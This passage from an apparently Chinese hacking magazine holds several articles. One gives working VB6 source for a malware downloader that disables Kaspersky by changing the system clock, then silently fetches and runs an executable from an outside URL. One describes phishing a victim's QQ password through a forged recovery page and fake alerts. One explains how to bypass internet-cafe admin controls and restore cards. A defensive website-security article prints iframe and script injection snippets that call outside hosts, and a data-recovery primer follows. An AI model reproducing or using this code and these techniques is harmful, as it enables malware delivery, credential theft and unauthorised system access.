第二种：文件解锁。刚才说到 mcfer.dat 文件里的 MD5 密码可以通过网站和软件破解，但是一旦密码超长而且十分复杂，那就郁闷了。所以，我介绍文件解锁这个方法，本方法无毒无害可大胆实践。首先要下载 Unlocker 这个软件，因为它可以在不结束进程的情况下删除进程调用的文件。为什么要用 Unlocker 呢，那是因为万象的程序设计员把 mcfer.dat 插在 winlogon.exe 进程里，如果果然关闭该进程，你的机器就会蓝屏（不管是什么系统都蓝屏），所以劝大家不要做傻事。安装完 Unlocker 后，在右键菜单中会出现如图 2 的菜单。

这时我们找到 mcfer.dat 右击并选择“Unlocker”，就会出现如图 3。

然后点“解锁”，你就可以修改 mcfer.dat 文件，把密码那 3 行全去掉了。然后保存文件在原来的地方，然后注销用户，当你在进系统时你就可以不用密码进入“系统设置”，当然就可以修改网管密码了。

第三种：安全模式。众所周知安全模式下系统只启动系统的文件（注：必须是断开网络的安全模式）那我们也就可以在安全模式下修改 mcfer.dat 文件了，不过大家要说网吧都有还原卡或者是还原程序，这一点大家不用担心，因为我们可以用“硬盘保护卡克星 1.1”破解，选择破解硬盘保护卡，另外在修改完网管密码后，在开机时硬盘保护卡恢复保护你修改后的全盘模式。就说这么多，大家要是有疑问的话可以来《手册》的官方论坛讨论。

> [文章中涉及到的工具 Unlocker 在光盘中有收录]

**编辑点评**：所以说弱口令害死人，现在网上的在线 MD5 密码破解那么厉害，相信很多网吧的万象密码都可以破解出来。当然万象的这个漏洞正像作者描述的那样不仅以 MD5 密码保存在文件里，最主要的是它竟然允许用户访问，结合特殊的非法竟然可以写该文件，万象网管……真是没的说了。编者感觉万象最比不上 Pubwin 的就是自身保护措施了，在对客户机的限制和功能上还是不错的。不过万象 2004 确实很旧了，通过这么多次对它的破解方法的讲解，相信大家已经能够轻易搞定它了吧！

# 编写自己的过卡巴下载者

JiaJia [YuLv]

- 从本文中你可以学到：
- 利用卡巴的 BUG 制作下载者

# 起因

近两年，下载者这个东东蛮流行的，因为体积很小的缘故吧。正好以前没写过这东西，前些日子心血来潮写了一个，且加上了过卡巴斯基的简单方法，因为目前使用卡巴斯基这款杀毒软件的人比较多。不多说，下面进入今天的主题。

## 分析

卡巴斯基有个小问题，不算是 BUG，因为它是为了检测 KEY 的合法性。但是一个小问题可以让我们好好地利用上，只要修改系统时间就可以让卡巴斯基无效。修改系统时间到今年的前几年或者后几年之后，等待 10 秒左右就会出现如图 1 所示的效果。

知道这个原理之后，用编程实现就简单了。在这里我选用的是 VB6，下面是编写的过程。

## 设计

打开 VB6，窗体上没什么要布置的，大体如图 2 所示。

下面要做的就只有写代码了，具体代码和说明如下：

```vb
Option Explicit

' 下载文件的 API:URLDownloadToFile
Private Declare Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long
' 暂停等待的 API:Sleep
Private Declare Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)

' 暂时存放系统当前日期的变量
Dim strDate As String

Private Sub Form_Load()
  ' 设置错误陷阱，防止错误而导致程序崩溃。
  On Error Resume Next
  ' 隐藏自身窗口
  Me.Visible = False
  ' 得到系统当前日期
  strDate = Date
  ' 修改系统日期
  Date = "2000-01-01"
  ' 等待 10 秒
  Sleep 10000
  Debug.Print "准备开始下载 test.exe ! "
  ' 转让控制权，以便让操作系统处理其它的事件。
  DoEvents
  ' 开始下载 test.exe
  DownloadFile "http://www.yulv.net/jiajia/down/test.exe", App.Path & "\test.exe"
End Sub

Private Function DownloadFile(strURL As String, strSaveFilePath As String)
  ' 设置错误陷阱，防止错误而导致程序崩溃。
  On Error Resume Next
  Dim lngRetVal As Long
  ' 开始下载文件
  lngRetVal = URLDownloadToFile(0, strURL, strSaveFilePath, 0, 0)
  ' 转让控制权，以便让操作系统处理其它的事件。
  DoEvents
  ' 判断返回值，等于零时说明下载成功。
  If lngRetVal = 0 Then
    Debug.Print "下载完毕，准备隐藏运行。"
    ' 隐藏运行一个可执行文件
    Shell strSaveFilePath, vbHide
    Debug.Print "隐藏运行完毕！"
    ' 还原系统时间
    Date = strDate
    ' 退出程序
    End
  Else
    ' 下载不成功执行的语句
    Debug.Print "错误：未下载成功或文件不存在！"
    ' 退出程序
    End
  End If
End Function
```

至此，一个简单且能过卡巴斯基的下载者就完成了。上面我采用了有窗体的例子，生成 EXE 后，下载者就 20KB，再加上个壳才 6.5KB，还是蛮小的。大家也可以只用模块去写，还有很多地方大家可以根据自己的思路去改进。代码就写到这里，我放了一个测试用的 test.exe 在我的空间上，运行本程序后自动下载 test.exe 并运行的效果如图 3 所示。

卡巴斯基的这个小问题会引起一定的隐患，我们还是不能忽视的，下面我们来看看应该怎么去防御它。

下载者的代码已经收录在光盘中

## 防御

我们是通过修改时间使卡巴斯基无效的，那么只需要禁止修改时间就可以达到防御的目的。运行“gpedit.msc”组策略编辑器，找到“计算机配置”—“windows 设置”—“安全设置”—“本地策略”—“用户权利指派”中的[更改系统时间]，如图 4 所示，右键打开属性，如图 5 所示，把全部用户或组删除。这样就可以禁止修改系统时间了，从而达到防御的目的。

## 写在最后

代码在 VB6+XP SP2+KIS6 下通过测试，这只是个例子，不要拿去做坏事哦。

如果大家有什么疑问或者想法都可以到 NoHack 的 BBS (Hhttp://Www.NoHack.Cn/bbs) 或我的 Blog (Http://Www.YuLv.Net) 上留言。我的 ID 是 JiaJia。

(作者提到的编写自己的过卡巴下载者的代码已经收录在光盘中)

**编辑点评：**卡巴的这个小 BUG 已经在网上公布了许久，但卡巴好像还没有进行修补，如果使用者觉得本文作者提供的方法比较繁琐，完全可以去 360Safe 的网站下载工具。

# 社会工程学

## 与子的妙用

社会工程学是一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行欺骗、伤害等危害手段，取得自身利益的手法。其核心简单的欺骗和迷惑目的是通过高明的心理学伎俩，让对方自愿地做出攻击者所需要的反应与行动。社会工程学将会是未来人侵与反恐的重要对抗领域。

从本文你可以学到：
- 利用官方网站进行行为造假
- 利用对方的 QQ 被盗而更改密码的心理

# 起因

好不容易熬到放假，结果内功基本上飞得差不多了，无奈之下，只好看看剩下几个肉鸡上有什么好玩的。突然看到一个肉鸡上有个 QQ 号，心里琢磨着怎么用好这个玩意儿，想到把它的 QQ 号窃改得有密码弄丢出来然后听他说，可是，她用的是 2007 版的 QQ，我还不太清楚那个木马可以盗密的了，况且我也不会用键盘记录，所以呢，想想看怎么用社会工程学来达到目的吧。

# 思路

为了得到密码和密码保护而又不让对方怀疑，我首先想到了用伪造网页的方式，假设来一套，制作起来会花费很多精力和时间，一旦实施不佳，很难令人对方生起疑心。那要怎么伪造？说起来，三人在页面的原理上，可以利用一下这个网页，只是这个页面是用来作“业务专用”，另外这里的一些工具可以在网站发布系统里找到，于是，我尝试着把这一个 QQ 窗口挂在那里？

# 伪造网页

首先，我们来伪造一个网页，通过这个来记录对方的账号密码以及密码保护。对于简单的小菜，自己做网页的实际，大多数人只需要一个网页，如果它们已被订成，就直接把原有的网页拷贝下来，再打开后修改一下，把 QQ 号，密码之类的字段替换成自己的。

然后，在浏览器上点“文件”-“保存为”，保存到桌面。会有两种文件，一个是 HTML 文件，一个是网页文件夹一样的离线文件，并且会有一大堆网页文件和 javascript 的内容。此时，若直接修改文件，页面也会自动刷新，但它不会发不出去，正如图 2 所示。

右键点 HTML 文件，选择“打开方式”中的“写字板”，或可以对网页的源文件编辑了。（此处有个窍门，就是先打开网页文件，最后再修改成 TXT 格式，边改边用 F5 刷新看效果。）这里不随意直接复制源代码，那样的话所有的图片就不会显示了。

OK，现在开始编辑。先在我的 QQ 号码，方法：“编辑”-“查找”-自己的昵称（以后都是这种查找方法，我的意思是“业务专用”），然后删除，包括后面的逗号一道，如图 3 所示。

这里我的想法是，因为只需要知道她的密码和密码保护，而一般用户在申请密码保护的证件号与下一项可能是正确的。于是，若将这两个内容放到一起，就能得到一个较为完整的密码提示答案。若这样做，还要分析网页中的关键字段，尤其是密码保护相关的表单项，如“密保问题”“密码答案”“确认新密码”等。

```html
<TR><TD colspan=2><SPAN class=Red><SELECT id=cardSelect style="width:180px" name=cardSelect>
<OPTION value=0>类型一</OPTION>
<OPTION value=1>身份证</OPTION>
<OPTION value=2>军官证</OPTION>
<OPTION value=3>学生证</OPTION>
<OPTION value=4>电话号码</OPTION>
</SELECT></TD></TR>
```

嗨意思！我也不知道，若它把这道是选项的一些代码，可以发现，对一个选项来说，代码就是“<OPTION value=n>选项名</OPTION>”，所以在“<OPTION value=4>电话号码</OPTION>”这段代码后加“<OPTION value=5>无</OPTION>”效果如图4所示。

```html
<tr><td><div align="right">密码提示问题：</div></td><td colspan="2"><xmp>你的英文名字？</xmp></td>
```

分析一下，‘我的英文名：’这里是自动加上的，也是骗对方不能填写，如何让对方可以填写呢？我们则将“<td colspan=2><xmp>我的英文名字：</xmp></td>”改成“<td colspan=2><input style="width:180px" name="oldKeyAnswer" id="oldKeyAnswer" class="boxinptqurey" size=28 maxlength=39><span class="Red"></span></td>”，这样密码提示问题后面就能获取密码保护输入框，来填写一些空格答案，这样就可以达到对方输入密码提示问题的效果。

这时关键的是，我不知道，这时候的密码保护其实是由一个网页表单收集来的，所以我把它显示为“请填写新的密码保护答案”，然后再放入一个输入框，让对方输入真正的答案。若他们按照正常逻辑去填写，就会顺理成章地把答案交给我们。

还是一样的，因此不会出现警告的弹窗，其实更简单的方法就是把所有类似以上的代码全部删掉，不过那样，如果对方填错的话却没有警告就还真不好办了。最后效果如图 5 所示，很逼真吧。

# 利用鸽子伪造提示消息

刚才讲得很枯燥，现在可以轻松了。就是用鸽子的消息提示那里，编一维像“您的 QQ 在别处登陆！您的 QQ 被迫下线！可能是您的密码被盗！建议立即修改密码以及密码保护！”等欺骗对方的话，就是为了让对方的心理处于劣势以使我们的计划成功实施，如图 6 所示。


# 综合实施

都弄好后，把刚刚两个文件上传到对方电脑的 QQ 目录里，然后先结束对方 QQ 进程，然后发出提示信息，再迅速地打开网页文件（慢了的话人家就直接上网上去改了……），接着就看着捕获屏幕看着对方怎么上当的吧，感觉好有成就感啊！

# 结束语

其实我还有一个思路，就是通过填完表单之后可以直接发送到网上的一个文件，那样更方便一些，但我对于这些代码算是一窍不通，哪个高手懂的可以自己尝试。但通过这个方法大家可以看到，社会工程学的力量竟然是如此的伟大。但是希望大家还是以技术作为自己的目标，不要做什么坏事哈！

> **编辑点评：**伪造网页是社会工程学中重要的一环，利用对方的心理则更重要，本文的作者就是利用了这两点便轻易地忽悠了 MM :)

# 个人（商业）网站安全维护——网页木马防范

simeon

> **BOSS 语：**
利用挂马获得肉鸡的方式正在获得更多人的认可。挂马利用 IE 或者其它网页浏览器的漏洞在用户浏览网页的时候执行恶意代码，下载并运行一个木马程序，借助强大的网络使得这种攻击方法传播速度非常快，并且现在针对 IE 的网页木马生成器有很多，使用方法又简单，更使得挂马变得十分肆意，挂马者不必掌握太多的技术就可以轻易获得大量的肉鸡，这也让很多人沉溺其中。本期 OFFICE38 线给大家准备了一篇网站安全防范的文章，其中主要讲的就是针对网页木马的防范方法，读过这篇文章后相信以前对网页木马以及挂马有疑惑的朋友会有所收获。

- 从本文中你可以学到：
1. 网站安全隐患来源
2. 了解几种简单的挂马方式
3. 常见的网页加密的方式
4. 如何查找和清除网页木马

现在国内有许多个人或者公司都建立了网站，网站已经成为日常生活的一部分，而网络钓鱼、网络诈骗、网络盗号等安全问题层出不穷。对于个人（商业）网站安全来讲，网页挂马危害最大，如今的挂马者主要追求商业利益，木马程序多是量身订做的，隐蔽性强，危害性大，加上近两年来，许多黑客站点以及网络安全培训的兴起，作为一名“工具”黑客，不需要太多的专业知识，只需要看看录像，学会使用软件工具即可，在这种情况下对于个人（商业）网站的安全维护已经成为网络安全的一个研究课题，本文就个人（商业）网站的安全维护，尤其是对网页木马的防范有一些心得，由于水平有限，不足之处，请多包涵。

# 一、个人（商业）网站安全隐患分析

对于个人（商业）网站来讲，其安全主要受制以下一些因素：

- 1. **租用服务器安全。**租用服务器安全主要取决于该 ISP 提供商或者虚拟主机等服务提供商自身安全水平。如果该服务器安全无法得到一定程度的保证，那么个人及其商业网站就无法得到保证。服务器安全主要是指服务器系统设置，补丁更新，防火墙设置，IIS 安全设置，杀毒软件设置等。

**注意：**现在有很多人为了追求商业利益，自己随便整一个服务器然后就开始了虚拟主机等服务，这些服务器的安全性往往很差，因此在找虚拟主机和网站空间时一定要认真选择，考虑综合实力相对较强的，否则服务器老是出问题会影响个人（公司）网络业务的开展。

- 2. **网站程序安全。**在服务器保证安全的前提下，程序 Bug 是网站安全的重大隐患。加上不少商业和个人网站采用第三方程序，第三方程序一旦出现安全漏洞，个人和商业网站极易受到攻击。
3. **维护安全。**维护安全主要是指程序交付并正式运行以后，网站需要单独的维护人员进行维护。对于个人网站来说，程序的维护往往通过 Ftp 相关程序上传新的程序文件来进行更新维护。如果 ftp 口令或者数据库口令被泄漏，其风险是不言而喻的。

对于个人或者商业网站，入侵者在入侵成功以后，主要有以下目的：

- 1. 获取相关有用信息。例如获取网站中的注册用户 E-mail 等个人信息，还有就是有针对性地获取商业信息。
2. 作为入侵平台，在网站“挂马”。网站“挂马”是入侵者的惯用伎俩，主要利用操作系统漏洞，通过一些程序生成脚本文件或者网页，放入或者嵌入网站网页中，当用户访问时，木马程序会被下载到本地并偷偷执行。
3. 兴趣所致。入侵者或者安全爱好者进行实际技术的演练，或者就是一种个人侵爱好。

# 二、网站安全维护

以上对于个人（商业）网站的安全隐患进行了分析，对于网站管理人员如何来进行维护呢？其实很简单，通过笔者的分析研究，可以归纳为“一看”、“二查”、“三删”、“四堵”，下面分别进行分析。

- 1. **“一看”**主要是指打开网站主页时进行观察。对于初级的挂马者而言，往往通过在网页中加入一段挂马代码。这段代码可能是 js，可能是 css，也可能是一段纯粹的 html 代码。其代码可能为以下三种：

```html
(1)、<iframe src="http://www.21cnhr.com/inc/about.asp"
```

```html
width="0" height="0" frameborder="0"></iframe><script>
(2).<script src="http://www.bdcrb.com/QQ/1.js"></script>
(3).body {background-image: url('javascript:document.write("<script src=http://www.9xiao.net/9xiao.js></script>")')}, 其中 9xiao.js 内容是 document.write("<iframe src=你的网马 width=0 height=0></iframe>")
```

**说明：**现在的杀毒软件也非常厉害，当访问的网站中存在网页木马，杀毒软件会自动查杀的。


如果在网站挂马以后，往往会产生一些表象，仔细观察会发现，在网站挂马以后，如果没有对地址栏进行处理，在用 IE 等浏览器打开时，浏览器会访问其它地址，如图 1。

图 1 浏览器访问其它地址


一般情况下是不访问其它网站地址，这些地址往往就是挂马的地址，而且一些处理不好的挂马代码会导致一些错误提示，该错误提示一般在浏览器左下角以“黄色三角形”标识，双击该“黄色三角形”会显示具体的错误代码，如图 2。

图 2 提示 Script 错误

这些错误代码有可能是挂马站点未处理好，也有可能是挂马者在挂马时未处理好挂马代码。

**注意：**对于初级的挂马者，其网页木马源代码可能没有加密，如图 3。


而大多数老手都对网页木马源程序进行了加密，而且极有可能是多次加密。目前网上有很多提供网页加解密的网站，如图 4，图 5。

图 3 网页木马的地址


图 4 脚本加密与解密


图 5 网页加密

一般来讲对网页加密的方式有以下一些：

- (1) 通过 Unicode 码的转换实现的加密解密，但经过实验，中文文字太多会导致将你的页面代码膨胀，英文反而会有压缩效果；
(2) 带有密钥的加解密；
(3) Base64 编码加密，关于 Base64 编码加解密可以参考网页 http://www.dbxk.com/article/article/36/2005-12/20051228170628.html 以及 http://www.tyhome.com.cn/show_jdyk.asp?id=650
(4) md5 的加密；
(5) 微软的 Encode 加解密。微软提供了一个专业的网页脚本加密工具。加密时应只加密脚本部分，不加密脚本标记`<script language="javascript">`，并且加密后脚本标记应改为：`<script language="JScript.Encode">`；
(6) 8 进制和 16 进制转义字符串加解密；
(7) 10 进制和 16 进制 HTML 编码加解密；
(8) escape 加解密。escape() 方法可以处理任何字符串对象或表达式。它返回一个 string 对象。其中所有的非字母字符将被转换成按照 %xx 表示的数字，xx 表示非字母字符对应的十六进制数；
(9) JS 脚本本加解密，Js 脚本本加解密有一个做的比较好的站点，大家可以直接访问：http://dohi.cn/soft/MonyerEn.html 以及 http://www.hao123.com/haoserver/jmjm.htm。

**2、“二查”**主要是查看源代码。当然前面的观察也可以作为“二查”的依据，比如在浏览器访问该网站时，在地址栏中发现网站在访问其它地址，那么该地址可以作为查看挂马所在网页的一个最直接的方法，可以通过 FrontPage 等网页编辑工具直接在站点中查找包含该地址的 html 网页。通过研究分析发现，挂马代码会直接以 html 方式显示，一般用户非管理员可以直接查看怀疑有挂马的网页源代码。方法为：在浏览器中单击“查看”——“查看源文件”就可以通过记事本打开网页，然后寻找挂马代码。

**3、“三删”**主要是指在站点中删除入侵者加入的挂马代码。对于普通用户来讲，如果发现有人在挂马，可以通过 flashget、迅雷等下载软件直接下载存在挂马的网页，将挂马网页中存在的文件再次下载下来，然后提交给杀毒软件公司，嘿嘿，入侵者的马儿很快就会夭折。对于网站管理员来说，如果发现挂马，那么说明这个站点或者这个站点所在服务器已经失控，这时候最好的办法就是使用备份文件重新覆盖，千万记得不要将旧的数据库覆盖新的数据库。好的方法是在覆盖前先将网站文件下载到本地做一个备份，以备不测。

**4、“四堵”**主要是指发现挂马后要及时堵漏。网站被挂马说明网站肯定存在漏洞，这个时候一定要仔细分析和检查。一些可以参考的建议：

- (1) 使用明小子的 Domain3.5 或者教主的 HDSI 等 SQL 注入软件进行注入漏洞扫描，当代码文件不是很多时，手动检查还可以，如果文件较多时，使用软件相对效果会好一些，而且容易发现漏洞。
(2) 更换数据库管理员密码。现在很多网站数据库都是采用 MD5 加密，网上有大型 MD5 在线破解数据库，即使复杂的 MD5 密码也是很容易被破解的，因此更换数据库管理密码尤为重要。
(3) 更换服务器用户及其相关密码。网站跟服务器相比，显然入侵者会更喜欢服务器，毕竟下蛋的“鸡”比“蛋”贵。

重要。防止入侵者开放 3389、种木马等，当然如果条件允许，建议使用备份文件恢复系统。

(4) 对服务器做一次完整的安全检查，如果没有进行操作系统的恢复，建议对服务器进行一次完整的安全检查，查看日志、进程、服务、系统文件等。

# 三、结束语

网络安全是相对的，本文也仅仅是抛砖引玉，对网站维护的一个小的方面进行了探讨，作为从事网络安全的我们就应该将安全的东西变成不安全的东西，将不安全的东西变成安全的东西，让我们在网络安全的矛盾中前进，欢迎致力于网络安全研究的您来《黑客手册》的官方论坛上讨论。

> 编辑点评：本文从最初的网站安全隐患的来源开始讲起，继续站在网站管理者的角度分析了入侵网站的黑客的意图，然后针对网页木马的防范分为“一看”、“二查”、“三删”、“四堵”分别进行了讲解，算是一篇比较全面的个人（商业）网站安全维护的文章。编者认为其中比较有价值的资料是：个人（商业）网站产生安全问题的几个因素，可以帮助网站管理员做全面的安全防御；然后是那三种常见的挂马代码，很多时候就靠它们发现安全问题了；再次就是网页的机密方式，当然最后作者的安全防御建议也是不错的。文章中有句话说得不错：“将安全的东西变成不安全的东西，将不安全的东西变成安全的东西”，一句话几乎诠释了整个网络安全领域！

# 六一儿童辑：

# 揭开数据恢复的神秘面纱

孤单每一天

- 从本文你可以学到：
1. 了解数据恢复的基本知识
2. GHOST 的实用操作
3. 多种磁盘分区软件的基本操作
4. 多种数据恢复软件的基本操作

## 引言

俗话说：“硬盘有价，数据无价”，它的意思是告诉我们对于存放在硬盘上的重要数据要经常备份，才能确保数据的底层安全。其实不光是硬盘出现故障几率比较大，就连光存储、存储卡、存储卡等设备也会偶尔发生故障，而且较难恢复，所以数据备份还是关键，绝对不可以因小失大。希望本文能够对初学者有一定的启发，下面是我自己编的一串顺口溜，带您揭开数据恢复的神秘面纱。

> 数据恢复有技巧，最忌烦躁与喧闹，恢复之前平心态，恢复之时需记牢：
备份恢复 ghost，操作简单又可靠，不过用时须注意，坏道千万不能碰；
分区丢失不用愁，PQ 足够供需求，要求效率又雅观，diskgen 带您去参观；
BPB 丢了没什么，NDD 为您去解忧，数据恢复好恼人，修复引导算完毕；
FAT 破损不用哭，深山红叶有一套，工具软件一大堆，IT 人员不可少。
听我继续往下说，开机光启最理想，如果内存吃的紧，数据挂起是一招；
文件误删没什么，ER 伸手把它捞，就当数据被隐藏，一会工夫就找到；
数据提取别灰心，FinalData 找一找，深入底层数据区，找到了算运气好；
然后拿出十六进制，数据深入作比较，缺了就补有耐性，之前千万备份好；
零磁道坏很头疼，幸亏 DE 有诀窍，斗转星移换扇区，然后重建分区表；
硬盘坏道不得了，听我慢慢往下道：稍有不慎失误大，整盘数据玩完了；
效率源打头一阵，扇区复制准备好，只因功能不算大，应付软道还算好；
MHDD 功能大，只是界面不友好，主从硬盘需搞对，不然哭都没地找；
如果不行还有招，Badcopy 把它挑，用时需得人同意，有利有弊要拿好；
PC3K 比较牛，三效合一挺可靠，软硬结合来治病，可惜穷人哪吃得起这药。
以上几行需牢记，也许明天用得到，数据恢复讲诀窍，不成不要胡乱搞，
弄出盘体故障来，开盘未必有疗效，平时注意多备份，数据灾难均能避。

在这里我主要带大家了解一些数据恢复的基本原理和如何实现快速数据恢复，其中包括一些简单的数据组成原理和一些 MBR、DPT、BPB、FAT、FDT 上的数据应急恢复，使大家能够当数据丢失时快速恢复数据，即使无法恢复也可以避免数据的二次丢失。

## 第一章 入门阶段——数据的存储结构

在生活工作中，我们经常要对硬盘进行复制、粘贴、剪切、删除以及现在流行的粉碎，那么这些功能是如何快速实现的呢？其实与数据的存储结构有关。

硬盘上存储的数据按作用不同分为五部分：MBR 区、DBR 区、FAT 区、FDT 区、DATA 区。其中 MBR 是 Main Boot Record 的缩写，即主引导记录的意思；DBR 是 Dos boot Record 的缩写，即操作系统引导记录；FAT 是 File Allocation Table 的缩写，即文件分配表；FDT 是 File Directory Table 的缩写，即文件目录表；而 DATA 则为真正的数据区。

硬盘按机械构造来划分主要分为控制电路和盘体，并且二者是可以分开的。控制电路主要负责处理 IDE 控制器发过来的脉冲信号并将其转换为模拟信号，简单的来说就是数模转换与模数转换。还有一部分是供电的，主轴电机和磁针伺服电路。盘体一般不容许独立拆开，因为盘片是不能见到灰尘的，希望大家不要随便拆开硬盘。盘片一般有一片或两片，中间为主轴电机，寻道系统包括旋转磁针、伺服线圈、强磁铁、数据传输系统等，这样就由主轴电机带动盘片高速旋转，而磁头通过伺服系统的控制里外圈滑动，将磁信号转换为电信号，这样就完成了硬盘的高速存储和读取。那么究竟是怎样实现的呢？下面几点向大家说明：

## 1、文件的读取

文件的读取主要对以下三个区域进行动作，FAT、FDT、DATA。在目录区中读取文件名、扩展名、文件大小、修改时间和在数据区保存的第一个簇的簇号。至于簇、扇区、柱面、磁道等具体定义，请大家查阅相关资料，由于这里主要讲解数据恢复，所以只作大概讨论。在这里假设簇号是 0038 单元，操作系统从 0038 簇开始读取数据，然后再去找 FAT 的 0038 单元。如果内容是文件结束标志 EOF 的话，则表示文件结束，数据读取完毕；否则内容保存在下一个簇的簇号里，这样磁头再次深入数据区，重复读取下去直到遇到文件结束标志 EOF，停止读取。

## 2、文件的写入

当我们要保存文件时，操作系统首先会在 FDT 区中寻找空白区写入文件名、扩展名、创建时间、及属性大小等信息，然后会在 DATA 中寻找空闲空间保存数据，并把 DATA 的第一簇的簇号保存在 FDT 中。其他工作和上面的文件读取差不多，就是对 FAT 的标记，当然也是以簇为单位的，也就是 DATA 存储一个，FAT 标记一下，直到完成存储，FAT 标记为 EOF。

## 3、文件的删除

操作系统对文件的删除就更直接了，它只是对 FDT 区作了一点小小的改动，将目录区文件的第一字符改为 E5 就代表文件删除了。

## 4、文件的粉碎

文件粉碎系统是近两年流行起来的，主要原因是数据恢复业的兴盛。它的主要作用类似于机密机构的碎纸机，预防废弃数据

被不法之人拿去作不法企图。它的原理类似于读取、写入、删除的结合；首先操作系统把文件数据区的地址全部读入内存，然后通过机器语言在内存标示的地址中进行全部的填零操作，最后标识 FDT 表文件的第一个字符为 E5，释放内存，结束整个粉碎过程。这个过程等于磁盘的局部低级格式化，被粉碎的数据将永远消失，并且不可恢复。据说美国有人可以利用磁性逆转的方法来恢复被覆盖、粉碎、低格的数据，那还有待考证，不然磁盘的容量岂不是可以扩容？

好了，知道了数据的大体存储结构，我们就来分析一下这 5 个区域的大体分工吧！

# 一、主引导记录 MBR 区

硬盘的主引导记录位于硬盘的 0 柱面、0 磁道、1 扇区上，俗称 0 扇区。我们都知道 1 个扇区由 512 个字节组成，在 0 扇区中 MBR 只占用了 446 个字节（偏移 0-1BDH），另外的 64 个字节（偏移 1BEH-1FDH）交给了 DPT (Disk Partition Table) 硬盘分区表，最后的两个字节 55AA (偏移 1FEH-1FFH) 是分区表结束的标志。

不过在了解主引导记录之前我们必须要先了解一些硬件知识，学计算机不能只学软件啊！大家回忆一下当开机的那一刻，计算机首先会做什么？当然是 BIOS 自检！在这个不到两分钟的时间里，BIOS 会对 100 多种设备进行检测，我们可以通过检测卡 (POST 卡) 或主板自带的 debug 检测灯观察到，从 FF 开始一直走到 FF，当到 FF 的时候，BIOS 会直接读取硬盘的 0 扇区，也就是 0 面 0 道 1 扇区，它是 BIOS 可以直接访问硬盘上的唯一的一个外存储设备。如果这个扇区坏了或扇区上的数据丢失，BIOS 就会认为硬盘不存在，而导致引导失败。

有的恶意程序还会篡改主引导记录，给硬盘安上逻辑锁，使得中招者无论使用任何正常的启动盘都无法引导成功，“江民炸弹”就是这一类程序之一。所以在此引入一些硬件知识来重点提示 0 扇区的特殊性，并且由 MBR 产生的故障最为常见，而且多种多样。

主引导记录包括硬盘的一系列参数和一段引导程序。参数就不提了，只是硬盘的规格而已，引导程序的作用是检测分区表是否正确，并且在 BIOS 将它读入后，将控制权交给具有激活分区标志分区中的 io.sys 文件，实现进一步引导系统。

MBR 是由分区程序所创建的 (如 Fdisk)，它不依赖任何操作系统，并且它是可以改变的，从而实现多系统共存。比如 Linux、Windows 的双引导就是 LILO 程序修改 MBR 实现的。

# 二、操作系统引导记录 DBR 区

DBR 通常位于硬盘的 1 面 0 道 1 扇区，是操作系统可以直接访问的第一个扇区。它包括一段引导记录和一个被称为本分区参数记录 BPB (Bios Parameter Block)，引导程序的作用是当 MBR 把控制权交给它时，判断根分区下的文件是否是操作系统的引导文件 (比如：MS-DOS 是 msdos.sys 和 io.sys)。如果是，就把它读入内存，并把控制权交给该文件，实现下一步引导。

BPB 参数表记录着本分区的起始扇区、结束扇区、文件的存储格式、磁盘介质描述符、根分区大小、FAT 个数、分配单元大小等重要信息。由此可见，BPB 损坏后直接的后果就是分区未格式化或分区无法打开。

# 三、文件分配表 FAT

FAT 用于记录硬盘内簇的使用情况的详细数据表，其目的显而易见，就是用于数据的链式存储。因为硬盘必须准确无误的记录着哪些簇已经被使用，还必须为每个使用过的簇指明后续内容的下一个簇号。对于一个文件的结束，要标明该文件无后继簇，所以不难想象，FAT 表损坏的直接后果就是分区中文件读取错误。

# 四、文件目录表 FDT

FDT (dir 目录区) 它紧接着 FAT 表，它记录着根分区下每一个文件 (目录) 的起始单元、文件属性等，所以当 FDT 损坏或丢失时，会造成部分数据丢失或空白分区的现象。

# 五、数据区 DATA

顾名思义，这里就是真正存储数据的地方，如果数据是从这里丢失或覆盖，乃至出现物理坏道，那么数据十有八九是不能恢复了。以上概念只是在单盘工作模式下的概念，当然不包括 RAID 了。提起 RAID，这里只说个大概，帮大家温习一下 RAID 的工作原理就可以了。

Raid 从概念上分为硬 raid 和软 raid，硬 raid 是从硬件角度上说的，必须通过主板南桥芯片或第三方 Raid 控制器所搭建，成本较高；而软 raid，则是通过操作系统 (只有 Windows2000 以上的 Windows 系统和 UNIX 等系列系统) 的支持，比如 Windows2000 的动态分区可以创建软 raid，其最大的好处就是成本低，不过速度不及硬 raid。

raid 按组成结构可以分为 raid 0、raid 1、raid 2、raid 3、raid 4、raid 5、raid 0+1，常见格式有 raid 0、raid 1、raid 3、raid 5、raid 0+1。

具体功能如下：

Raid 0：将多块硬盘合并成一块大的磁盘，不具有冗余，并行 I/O，速度是最快的，它又称带区集。它是将多块硬盘并列起来然后等待 I/O 指令，比如写盘过程中，直接将待写的数据根据磁盘数量分块，然后将分好的数据块同时写进待写的磁盘中。所以在 raid 0 中，磁盘越多，读写速度越快，但因为 raid 0 不具有冗余功能，当一块硬盘损坏或掉线时，另外的几块硬盘上的数据也就无法读取了。

Raid 1：在磁盘阵列中将两组相同的磁盘分为相同的两部分互相镜像，当一组出现问题时将会利用镜像上的数据去自动恢复，所以 raid 1 的安全效果是最好的，并且 raid 1 也采用数据分块存储，这要比单盘系统速度在理论上要快，不过在 raid 磁盘阵列中是最慢的了，而且硬盘利用率只有 50%，成本较高。

Raid 3：raid 3 是以一块硬盘来单独存放数据的奇偶校验位，数据则分段存储在其他的硬盘上，未存放奇偶校验位的硬盘与 raid 0 的工作模式差不多，属于并行系统。这里的奇偶校验位是相当重要的，如果它损坏，所有数据将全部无法使用，而其他盘损坏则只需更换此盘就可恢复数据。所以说 raid 3 的速度还是比较快的，而且利用率也比 raid 0 有所提高，容量是所有磁盘的总和减去奇偶校验盘的容量。

Raid 5：raid 5 的工作模式与 raid 3 的非常相似，只是奇偶校验位存放在磁盘阵列的每一个硬盘上，如果一个硬盘损坏都可以通过其他硬盘上的奇偶校验位来重建丢失的数据，所以它可以保证硬盘出错或者掉线上的数据安全。数据同样分段存储在每一个硬盘上，这样硬盘的读取速度与 raid 0 的速度差不太多，而且硬盘有了很高的利用率，是服务器经常用到的磁盘阵列。

Raid 0+1：顾名思义是 raid 0 和 raid 1 的结合，在速度和安全上都是最好的，但成本也是最高的，一般人很少用到 raid 0+1。

好了，数据的存储结构介绍到此为止，我们将在第二章中介绍一些简单的数据恢复工具。

# 第二章 数据恢复初级篇——傻瓜化数据恢复工具

